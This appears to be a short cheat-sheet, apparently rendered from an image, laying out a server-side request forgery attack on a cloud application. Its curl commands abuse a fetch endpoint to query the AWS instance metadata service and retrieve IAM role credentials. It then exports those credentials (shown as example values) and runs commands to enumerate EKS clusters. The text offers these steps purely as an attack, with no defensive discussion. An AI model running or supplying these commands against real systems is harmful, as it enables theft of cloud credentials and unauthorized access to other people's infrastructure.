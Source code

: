 # SSRF to AWS Metadata

#### 1) Discovering the vulnerable endpoint

    curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/"

#### 2) Accessing the metadata service through SSRF

    curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

#### 3) Extracting IAM role credentials

    curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-node-role"

#### 4) Weaponizing the stolen credentials

    export AWS_ACCESS_KEY_ID="AKIAEXAMPLE123456789"
    export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
    export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEHoaCXVzLXdlc3QtMiJGMEQCIH..."

#### 5) Enumerating EKS resources

    aws eks list-clusters
    aws eks describe-cluster --name production-cluster
